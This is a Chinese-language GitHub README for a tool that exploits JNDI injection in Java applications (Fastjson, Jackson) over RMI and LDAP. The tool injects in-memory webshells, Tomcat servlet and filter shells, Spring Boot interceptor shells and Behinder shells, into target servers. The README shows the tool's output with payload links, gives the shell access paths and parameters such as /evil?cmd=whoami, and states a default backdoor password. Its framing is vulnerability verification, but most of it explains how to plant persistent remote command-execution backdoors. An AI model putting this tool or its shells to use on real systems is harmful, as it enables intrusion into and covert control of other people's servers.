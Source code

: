 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/svbmvr
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/wf0teg
ldap://127.0.0.1:1389/wf0teg
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/dsedk6
ldap://127.0.0.1:1389/dsedk6
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/b3uiqm
ldap://127.0.0.1:1389/b3uiqm
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/2druq8
ldap://127.0.0.1:1389/2druq8
Target environment(Tomcat Filter Memshell):
rmi://127.0.0.1:1099/h4bsck
ldap://127.0.0.1:1389/h4bsck
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/6pvnje
ldap://127.0.0.1:1389/6pvnje
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/moasws
ldap://127.0.0.1:1389/moasws

----------------------------Server Log----------------------------
2023-08-29 12:34:05 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-29 12:34:05 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-29 12:34:06 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

  ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

	![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)

- Tomcat Filter Memshell:
  - Tomcat filter内存马，在访问路径/evil?cmd=whoami，可以执行命令
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/5.jpg)

## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。

## 待实现

- 添加~~filter~~、~~Interceptor~~类型的内存马。
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马



## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
